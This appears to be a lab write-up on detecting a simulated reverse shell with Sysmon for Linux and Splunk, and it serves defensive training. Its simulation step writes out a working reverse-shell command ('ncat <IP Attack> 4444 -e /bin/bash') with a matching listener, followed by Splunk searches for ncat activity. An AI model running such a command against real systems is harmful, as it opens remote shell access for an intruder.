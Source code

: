 # Task #2: Monitoring and Investigating Suspicious Process Execution

- Install Sysmon
- Setup Splunk
- Simulate attack
- Visualize

#### Install Sysmon for Linux

- [Sysmon for Linux](https://learn.microsoft.com/en-us/sysinternals/downloads/sysmon)

```sh
# 1. Register Microsoft key and feed
root@forwarder:~$ wget -q https://packages.microsoft.com/config/ubuntu/$(lsb_release -rs)/packages-microsoft-prod.deb -O packages-microsoft-prod.deb
root@forwarder:~$ sudo dpkg -i packages-microsoft-prod.deb

# 2. Install SysmonForLinux
root@forwarder:~$ sudo apt-get update
root@forwarder:~$ sudo apt-get install sysmonforlinux
```

```sh
root@forwarder:~$ nano sysmon-config.xml
```

- [MSTIC Sysmon Resources](https://github.com/microsoft/MSTIC-Sysmon/blob/main/linux/configs/main.xml)

```sh
root@forwarder:~$ sysmon -i sysmon-config.xml
```

```sh
root@forwarder:~$ sysmon -i sysmon-config.xml
root@forwarder:~$ systemctl restart sysmon
root@forwarder:~$ systemctl status sysmon
```

#### Simulate a Suspicious Process Execution attack and Analyzing logs on Splunk

```sh
root@attack:~$ sudo apt install ncat -y
root@attack:~$ ncat -lnvp 4444
ls
pwd
```

```sh
root@forwarder:~$ sudo apt install ncat net-tools -y  
root@forwarder:~$ ncat <IP Attack> 4444 -e /bin/bash
root@forwarder:~$ lsof -i :4444
root@forwarder:~$ netstat -tulnp | grep 4444
root@forwarder:~$ netstat
root@forwarder:~$ netstat grep 4444
```

#### Setting up Splunk UF and Splunk Dashboard

####Search & Reporting

```sh
index="linux_os_logs" process=sysmon
index="linux_os_logs" process=sysmon TechniqueName=Command
index="linux_os_logs" process=sysmon TechniqueName=Command "ncat"
```
